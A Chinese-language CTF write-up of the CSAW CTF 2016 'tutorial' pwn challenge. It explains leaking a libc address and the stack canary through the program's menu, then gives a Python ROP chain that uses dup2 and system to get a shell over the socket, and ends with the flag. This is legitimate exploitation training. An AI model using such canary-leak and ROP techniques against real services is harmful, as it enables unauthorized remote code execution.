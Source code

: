 title: '[CSAW CTF 2016] tutorial 200'
author: briansp8210
tags:
  - CSAW CTF 2016
  - pwn
categories:
  - write-ups
date: 2016-09-20 22:42:00
---
# [CSAW CTF 2016] tutorial 200

> Category: pwn
> Point: 200
> Solver: briansp8210 @ BambooFox	

# tutorial

由於自己對於網路程式設計還沒有概念，而且執行檔在 local 跑不起來，不能用 gdb 觀察，所以看得蠻吃力的。後來感謝 bruce 學長的提點，才順利解出來XD

## 解題流程

程式一開始會建立 socket 連線，然後執行 `fork` 後進入 `menu(int socket)` 選單。

* 選項 1 會輸出 `puts()` 的 address 扣掉 1280 的值，可以從這邊推出 libc address。
* 選項 2 會接收長達 460 bytes 的輸入，並從輸入 buffer 開始輸出 324bytes。透過 IDA 得知該 buffer 的起點位在  `rbp-320` ，所以這裡可以 leak 出位於 `rbp-8` 的 canary。

```C
write(socket_num, "Time to test your exploit...\n", 0x1DuLL);
write(socket_num, ">", 1uLL);
read(socket_num, &s, 460uLL);
write(socket_num, &s, 324uLL);
```

* 選項 3 離開程式。

----------

有了 libc address 和 canary 後就可以開始蓋 ROP chain 了。原本想直接蓋 `system` 開 shell，不知道為什麼失敗了，問了才知道由於前面的 `fork`，這邊直接叫 `system` 的話 file descriptor 會接不起來。所以我們要先用 `dup2()` 把 fd 設好才行。
由於前面呼叫 `read`  時已經把 rdi 設成我們要的值了，所以用 `dup2` 之前只要再把 rsi 設好即可。

```python
chain = 'A'*312 + p64(canary) + 'B'*8 +
	  p64(pop_rsi_r15_ret) + p64(0x0) + p64(0xdeadbeef) + p64(dup2) +
	  p64(pop_rsi_r15_ret) + p64(0x1) + p64(0xdeadbeef) + p64(dup2) +
	  p64(pop_rdi_ret) + p64(binsh) + p64(system)
```

把一開始 `accept` 的回傳值送給 `stdin` 和 `stdout` 之後 call `system` 就可以拿到 shell 了。

```
FLAG{3ASY_R0P_R0P_P0P_P0P_YUM_YUM_CHUM_CHUM}
```
